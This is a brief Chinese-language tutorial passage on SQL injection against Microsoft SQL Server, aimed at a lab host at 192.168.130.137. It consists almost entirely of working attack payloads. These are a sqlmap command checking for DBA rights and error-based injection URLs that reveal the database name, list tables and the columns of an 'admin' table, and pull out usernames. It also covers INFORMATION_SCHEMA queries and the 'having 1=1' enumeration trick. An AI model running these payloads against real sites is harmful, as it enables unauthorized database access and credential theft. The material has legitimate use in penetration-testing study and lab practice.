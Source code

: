 ```sql
sqlmap -u "http://192.168.130.137/1.aspx?id=1"  --is-dba -v3

```

判断当前数据库

```sql
http://192.168.130.137/1.aspx?id=1'and db_name()>0;--

```


爆表名

```sql
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--

```

爆列名

```sql
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--

```

爆数据


```sql
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 username from admin);--

```

因为mssql没有limit 所以只能用top 加上后面的判断来遍历数据


#### 其他用法

当然查询数据库的所有表你还可以使用 `INFORMATION_SCHEMA.TABLES` 

```
select * from INFORMATION_SCHEMA.TABLES

select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'

http://192.168.130.137/1.aspx?id=1 and 1=(select top 1 table_name from information_schema.tables
);--

```


我们要判断当前表名和列名 也可以使用 `having 1=1` 和 `group by`

```
http://192.168.130.137/1.aspx?id=1 having 1=1

```
